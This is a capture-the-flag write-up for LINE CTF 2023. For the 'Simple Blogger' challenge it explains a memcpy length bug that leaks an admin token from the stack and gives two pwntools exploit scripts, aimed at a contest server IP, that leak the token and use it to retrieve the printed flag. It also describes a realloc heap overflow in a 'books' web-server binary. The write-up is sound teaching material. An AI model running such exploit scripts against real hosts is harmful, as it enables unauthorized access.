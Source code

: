 ```yaml
---
layout: post
title: (CTF) LINE CTF 2023 writeup
categories: [Writeup]
tags : [writeup, CTF, LINECTF]
date : 2023-03-30 22:22:00 +0900
toc: true
comments: false
mermaid: false
math: false
author : Inseo An
---
```


# LINECTF 2023
## Simple Blogger
- This Challenge has two binary client_nix, server_nix 
### Client_nix
Client_nix provides several menus including Ping, login, logout and flag...

### Server_nix
Server_nix processes client input and sends a response to client 

The Vulnerability is in Ping function.

- Background Knowledge
    - the data struct that client send to server is simply below

        ``` python
        Struct data{
        # offset : name (size)
        0: success_flag (1)
        1: option_num (1)
        2: token (16)
        18: size_bigendian (2)
        - custom data
        20 ~ : Data
        }
        ```

    - the opposite is

        ``` python
        Struct data{
        # offset : name (size)
        0: success_flag (1)
        1: undefined (1)
        2: size (2)
        - custom data
        4 ~ : Data
        }
        ```

If client runs 'Ping', client receives 'Pong'

![1](https://i.imgur.com/sAOHhQc.png)

The detail process step is as follows:
1. Client send data below

    ```
    data = b'\x01\x01'
    data += b'\x00'*0x10
    data += b'\x00\x04'
    data += b'PING'
    ```

2. Server receives data, processes with them

2-1. Generally follow below logic save data to temp buffer
    ![2](https://i.imgur.com/97Vcc4l.png)
    The important element is
    
    ```
    a2+0x18 = size;
    ```

    2-2. And Call Ping Function
    ![3](https://i.imgur.com/MqfeG4e.png)

    (v9 == a2)
    sub_4025DC is Ping function, the 7th argument is size saved at the above logic
    2-3. Memcpy and return
    ![4](https://i.imgur.com/Y58G4a4.png)
    (sub_4013F6 is send response function, a7 == 7th argument )
    In the function, move data to response buffer via memcpy. Because the size using memcpy is a7, then can leak stack data. The admin token loaded from the above sql api exists in stack. 
    
4. Server sends a response to client   

    ```
    data = b'\x01'
    data += b'\x00\x04'
    data += b'PONG'
    ```

4. Client puts 'PONG'

---
Exploit code is below
- token leak

    ```python
    from pwn import *
    import struct, os, binascii

    HOST = '34.146.54.86'
    PORT = 10007
    TIMEOUT = 3

    def extract_sess(auth_res):
        sess = auth_res[4:]
        return sess

    def clear_db():
        payload = b'\x01\x01'
        payload += b'a'*0x10
        payload += b'\x03\x04'
        payload += b'PING'
        return payload

    def connect(payload):
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recvrepeat(TIMEOUT)
        r.close()
        return data

    r = remote(HOST, PORT)
    r.send(clear_db())
    r.recvuntil("PONG")
    data = r.recvrepeat(TIMEOUT)
    r.close()
    print(binascii.hexlify(data[:16]), end="")
    ```
    
- auth and get flag

    ```python
    from pwn import *
    import struct, os, binascii

    HOST = '34.146.54.86'
    PORT = 10007
    TIMEOUT = 3

    def extract_sess(auth_res):
        sess = auth_res[4:]
        return sess

    def clear_db():
        payload = b'\x01\x01'
        payload += b'a'*0x10
        payload += b'\x03\x04'
        payload += b'PING'
        return payload

    def connect(payload):
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recvrepeat(TIMEOUT)
        r.close()
        return data

    r = remote(HOST, PORT)
    token1 = 0x9649dac3db7f5cd3
    token2 = 0xe950d705b03a91c2
    payload = b'\x01\x06'
    payload += p64(token1,endian="big")
    payload += p64(token2,endian="big")
    payload += b'\x03\x04'
    payload += b'PING'
    r.send(payload)
    data = r.recvrepeat(TIMEOUT)
    r.close()
    print(data)
    ```

![5](https://i.imgur.com/mTkomoj.png)

`LINECTF{2b9598e3eca50122436702e10877cdce}`

---
## books
Binary act as webserver and provide below features

```
/api/book (GET) -> return list of books
/api/book/[0-9]$ (GET) -> return book matched the index
/api/book/search/.* (GET) -> search book
/api/book/search (POST) -> search book by body data
/api/book/[0-9]$ ( PUT, POST ) -> move book to cart
/api/cart (GET) -> return list of cart
/api/cart (DELETE) -> remove book at first 
/api/cart/[0-9]$ (DELETE -> delete book matched the index
```

The Vulnerability in `/api/book/search`

![6](https://i.imgur.com/LYmZDlf.png)

---

![7](https://i.imgur.com/uvGqnfx.png)

First, read bookname from v11(userinput) using sscanf. and make node, adds it to linked_list that head is find_head

![8](https://i.imgur.com/DtSCmTx.png)

And if exist dest, realloc that and append bookname(search query) to that else just strdup
Vulnerability occurs in realloc process. The size used in realloc is destlen*2 +1, but appended data(bookname)'s size can bigger then realloc size. The result can occur heap overflow

---



---
